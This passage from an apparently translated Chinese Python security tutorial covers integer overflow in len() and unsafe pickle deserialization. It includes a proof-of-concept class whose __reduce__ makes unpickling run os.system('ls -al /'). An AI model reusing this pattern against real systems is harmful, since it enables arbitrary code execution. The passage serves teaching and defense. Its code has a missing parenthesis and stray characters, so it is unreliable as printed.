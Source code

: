 在 Python 3 中执行相同的代码如下：

```py
$ python3 len_overflow.py** 
Not OK: 'class A(object)' with 'return 100 ** 100' - len raise Error: OverflowError("cannot fit 'int' into an index-sized integer",)
Not OK: 'class B' with 'return 100 ** 100' - len raise Error: OverflowError("cannot fit 'int' into an index-sized integer",)

```

在前面的代码中的问题在于`len`返回`integer`对象，在这种情况下，实际值太大而无法适应`int`，因此 Python 引发了溢出错误。然而，在 Python 2 中，对于未从`object`派生的类的情况，执行的代码略有不同，它预期一个`int`对象，但得到了`long`并抛出了`TypeError`。在 Python 3 中，这两个示例都返回溢出错误。

这样的整数溢出错误是否存在安全问题？

在实际情况中，这取决于应用程序代码和所使用的依赖模块代码，以及它们如何处理或捕获/掩盖溢出错误。

然而，由于 Python 是用 C 编写的，任何在底层 C 代码中没有正确处理的溢出错误都可能导致缓冲区溢出异常，攻击者可以向溢出缓冲区写入并劫持底层进程/应用程序。

通常，如果一个模块或数据结构能够处理溢出错误并引发异常以阻止进一步的代码执行，那么代码利用的可能性就会减少。

## 对象序列化

对于 Python 开发人员来说，使用`pickle`模块及其 C 实现的`cPickle`来对 Python 中的对象进行序列化是非常常见的。然而，这两个模块都允许未经检查的代码执行，因为它们不对被序列化的对象进行任何类型检查或规则的强制，以验证它是一个良性的 Python 对象还是一个可能利用系统的潜在命令。

### 注意

注意：在 Python3 中，`cPickle`和`pickle`模块合并为一个单独的`pickle`模块。

这是通过 shell 利用的示例，它列出了 Linux/POSIX 系统中根文件夹（/）的内容：

```py
# test_serialize.py
import os
import pickle

class ShellExploit(object):
    """ A shell exploit class """

    def __reduce__(self):
        # this will list contents of root / folder.
        return (os.system, ('ls -al /',)

def serialize():
    shellcode = pickle.dumps(ShellExploit())
    return shellcode

def deserialize(exploit_code):
    pickle.loads(exploit_code)

if __name__ == '__main__':
    shellcode = serialize()
    deserialize(shellcode)
```
